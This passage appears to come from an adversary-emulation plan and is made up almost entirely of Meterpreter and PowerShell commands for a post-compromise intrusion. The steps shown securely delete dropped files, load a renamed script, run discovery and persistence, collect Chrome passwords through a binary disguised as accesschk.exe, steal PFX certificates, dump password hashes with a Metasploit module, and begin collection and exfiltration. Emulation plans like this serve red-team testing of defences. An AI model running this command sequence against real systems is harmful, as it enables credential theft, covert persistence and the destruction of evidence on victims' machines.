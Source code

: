 [meterpreter (PowerShell)\*] > `.\sdelete64.exe /accepteula "$env:USERPROFILE\Desktop\?rcs.3aka.doc"`

[meterpreter (PowerShell)\*] > `.\sdelete64.exe /accepteula "$env:APPDATA\Draft.Zip"`

[meterpreter (PowerShell)\*] > `.\sdelete64.exe /accepteula "$env:USERPROFILE\Downloads\SysinternalsSuite.zip"`

Import custom script, readme.ps1:

[meterpreter (PowerShell)\*] > `Move-Item .\readme.txt readme.ps1`

[meterpreter (PowerShell)\*] > `. .\readme.ps1`

#### 4.C

[meterpreter (PowerShell)\*] > `Invoke-Discovery`

### Step 5 - Persistence

#### 5.A

[meterpreter (PowerShell)\*] > `Invoke-Persistence -PersistStep 1`

#### 5.B

[meterpreter (PowerShell)\*] > `Invoke-Persistence -PersistStep 2`

### Step 6 - Credential Access

#### 6.A

Execute chrome-password collector:

[meterpreter (PowerShell)\*] > `& "C:\Program Files\SysinternalsSuite\accesschk.exe"`

#### 6.B

Steal PFX certificate:

[meterpreter (PowerShell)\*] > `Get-PrivateKeys`

[meterpreter (PowerShell)\*] > `exit`

#### 6.C

Dump password hashes:

[meterpreter\*] > `run post/windows/gather/credentials/credential_collector`

### Step 7 - Collection and Exfiltration

#### 7.A

[meterpreter\*] > `execute -f powershell.exe -i -H`

[meterpreter (PowerShell)\*] > `cd "C:\Program Files\SysinternalsSuite"`

[meterpreter (PowerShell)\*] > `Move-Item .\psversion.txt psversion.ps1`
